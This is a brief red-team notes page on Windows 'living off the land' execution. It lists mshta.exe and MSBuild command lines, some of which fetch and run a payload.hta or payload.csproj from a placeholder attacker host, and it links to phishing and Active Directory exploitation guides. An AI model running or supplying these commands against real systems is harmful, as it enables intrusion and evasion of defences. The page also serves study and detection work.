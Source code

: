 # Living off the Land

## 01 - MSHTA

```
C:\> mshta.exe %CD%\payload.hta

C:\> mshta.exe <drive_letter>:\absolute\path\to\payload.hta

C:\> mshta.exe http[s]://<IP>/payload.hta
```

## 02 - MSBuild

Execute C# project payloads.

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attacker_IP>\payload.csproj

C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attacker_IP>\payload.xml
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Windows/Code Execution/DotNET|Code Execution: MSBuild]]

- [[HTA]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Linux/Network Ports/WebDAV|File Transfer and Data Exfiltration: Linux WebDAV Server]]

### DMCXBlue

- [DMCXBlue: HTA](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-infrastructure/weaponization/hta)

- [DMCXBlue: Links - HTA Files](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1566-phishing/phishing-spearphishing-link/links-hta-files)

### Cyber Security Corner

- [Cyber Security Corner: How to exploit Active Directory remotely by using MSBuild + Metasploit + Bloodhound](https://redblueteam.wordpress.com/2019/06/18/how-to-exploit-active-directory-remotely-by-using-unicorn-msbuild-metasploit-bloodhound/)